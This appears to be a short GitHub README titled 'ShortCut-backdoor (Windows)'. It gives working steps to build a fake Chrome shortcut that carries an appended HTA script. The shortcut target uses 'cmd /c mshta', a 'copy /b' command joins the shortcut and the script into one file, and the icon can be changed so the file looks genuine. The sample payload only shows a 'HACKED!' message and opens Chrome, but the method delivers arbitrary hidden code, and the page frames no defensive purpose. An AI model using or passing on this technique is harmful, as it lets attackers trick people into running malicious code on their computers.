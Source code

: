 # ShortCut-backdoor (Windows)

Tested on Windows 11

* 1  Create a chrome shortcut named exploit
* 2- Create a code.hta file to execute code, for example:
  ```vb
  <hta:application windowstate="minimize">
  <script language="VBScript">
  MsgBox "HACKED!"
  Close
  Set shell = CreateObject("WScript.Shell")
  shell.Run """C:\Program Files\Google\Chrome\Application\chrome.exe""", 0, False
  Close
  </script>
  ```
* 3- On exploit shortcut, change proprieties:
  ```
  Target: cmd /c mshta %CD%\Chrome.lnk
  Start In: C:\Users\<your-user>\Desktop
  
  And change icon if you desire
  ```
* 3- To build: On cmd:
  ```
  copy /b C:\Users\<your-user>\Desktop\exploit.lnk+code.hta Chrome.lnk
  ```
